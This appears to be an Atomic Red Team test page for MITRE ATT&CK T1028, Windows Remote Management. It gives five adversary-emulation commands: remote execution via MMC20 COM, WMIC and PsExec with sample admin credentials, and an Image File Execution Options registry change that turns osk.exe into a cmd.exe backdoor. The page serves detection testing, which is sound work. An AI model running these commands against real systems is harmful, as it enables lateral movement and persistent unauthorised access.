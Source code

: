 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

Upon successful execution, powershell will "Enable-PSRemoting" allowing for remote PS access.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Enable-PSRemoting -Force
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|


#### Attack Commands: Run with `powershell`! 


```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process.

Upon successful execution, cmd will utilize wmic.exe to modify the registry on a remote endpoint to swap osk.exe with cmd.exe.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```






<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process.

Upon successful execution, cmd will utilize psexec.exe to spawn cmd.exe on a remote system.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | localhost|
| psexec_exe | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{psexec_exe} \\#{computer_name} -u #{user_name} -p #{password} -s cmd.exe
```




#### Dependencies:  Run with `command_prompt`!
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```cmd
if (Test-Path "#{psexec_exe}"") { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```cmd
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory ("#{psexec_exe}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host.

Upon successful execution, powershell will execute ipconfig on localhost using `invoke-command`.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | localhost|
| remote_command | Command to execute on remote Host | String | ipconfig|


#### Attack Commands: Run with `powershell`! 


```powershell
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```






<br/>
